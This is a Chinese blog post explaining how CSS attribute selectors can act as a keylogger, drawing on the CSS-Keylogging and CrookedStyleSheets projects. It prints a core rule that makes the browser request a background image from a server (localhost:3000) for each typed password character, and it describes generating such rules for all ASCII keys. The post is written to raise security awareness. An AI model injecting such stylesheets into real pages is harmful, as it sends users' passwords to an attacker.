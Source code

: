```yaml
---
title: 使用 css 获取用户密码
subtitle: 使用 css 去捕获用户密码，最容易忽视的往往是最容易出现问题的，安全问题不容小觑。
date: 2018-02-23
cover: http://blog.static.minfive.com/post/18-02-23/112054010556572.png
categories: 日常学习
tags:
    - css
    - 安全

author:
  nick: minfive
  link: 'https://github.com/Mrminfive'
---
```


### 前言

新年工作第一天，在 github 上闲逛，发现了一个很有趣的项目，叫 [CSS-Keylogging][CSS-Keylogging]，这是一个演示如何用 css 去获取用户输入的密码的项目，这个项目与一两个月前的另外一个很火的项目 [CrookedStyleSheets][CrookedStyleSheets] 类似，甚至于有可能 [CSS-Keylogging][CSS-Keylogging] 就是受 [CrookedStyleSheets][CrookedStyleSheets] 启发才创建的。

### 不一样的 css

说到 css，大多数人的第一印象基本上就是用来配置界面样式的，甚至于连语言都称不上，但随着 web 技术的不停发展，其所具有的能力也与日俱新，不再是当初那个仅仅满足最基本布局需求的层叠样式表了，至于新的属性新的功能点笔者也了解不全，在这里也不便展开了。

话题回到不一样的 css 上，github 上 [jbtronics][jbtronics] 给出了这样一份答案 [CrookedStyleSheets][CrookedStyleSheets]，在这里笔者直接给上该项目的[中文文档][CrookedStyleSheetsDoc]，该文档上有一段关于输入监测的段落，请详细阅读完，如果早已看过请跳过继续看本文的后续部分。

### css 监听键盘记录

[CSS-Keylogging][CSS-Keylogging] 项目使用 css 监听键盘记录的方式一致，基本上是通过 css 选择器去实现功能，[CSS-Keylogging][CSS-Keylogging] 更为巧妙的使用多重选择器去捕获相应的按键事件。

核心代码如下:

``` css
input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
```

解释如下：

当 type 为 'password' 的输入框的输入的最后一个字符为 '1' 时使用 url 为 `http://localhost:3000/1` 的背景图，css 在这种情况下会尝试进行 get 请求获取资源，这样的话，服务端就能接收到来至客户端发送的 get 请求。

当 `value$="1"` 时，我们可以监听用户输入 `1`，那如果我们监听键盘上所有的按键字符，那我们是不是就可以监听用户的所有按键输入了？答案是可以，该项目使用 go 脚本遍历 ascii 码表，将所有键盘可输入按键字符均进行捕获，生成如下样式表：

![code][code]

当然也可以用使用 nodejs 去生成样式表，至今不明白作者为什么用 node 搭服务器然后用 go 写脚本。。。有兴趣的同学可以将项目 clone 下来跑起来试试。

### 总结

为了避免有目的性的劫持注入，请尽快升级 https ，预防这种情况的发生，网络安全无处不在，希望不要选择性的去忽视它。


[CSS-Keylogging]: https://github.com/maxchehab/CSS-Keylogging
[CrookedStyleSheets]: https://github.com/jbtronics/CrookedStyleSheets
[jbtronics]: https://github.com/jbtronics
[CrookedStyleSheetsDoc]: https://github.com/jbtronics/CrookedStyleSheets/blob/master/docs/README.zh.md
[code]: http://blog.static.minfive.com/post/18-02-23/code.png
